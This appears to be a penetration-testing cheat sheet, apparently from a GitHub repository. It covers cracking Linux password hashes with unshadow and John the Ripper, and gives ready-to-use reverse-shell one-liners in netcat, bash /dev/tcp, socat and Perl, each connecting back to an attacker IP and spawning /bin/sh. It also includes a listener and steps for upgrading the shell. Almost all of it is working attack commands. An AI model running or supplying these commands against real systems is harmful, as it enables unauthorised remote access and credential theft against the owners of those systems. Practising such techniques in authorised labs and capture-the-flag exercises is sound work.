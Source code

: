 ## unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## Reverse Shells
Use rlwrap to use arrow keys within reverse shell
```
rlwrap nc -lvnp 3141
```

Upgrade Reverse Shell:

1. `` Ctrl+z`` to background session
2. `` stty raw -echo``
3. ``fg`` to foreground session again

### Netcat
```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f # in case wrong version of nc is installed
```

### Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Socat
```
# Listener
socat -d -d TCP4-LISTEN:443 STDOUT
# Send bash reverse shell
socat TCP4:10.10.10.10:443 EXEC:/bin/bash
```

### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
#!/usr/bin/perl -w
use Socket;
$i="10.10.14.41";
$p=4443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("/bin/sh -i");
};
```
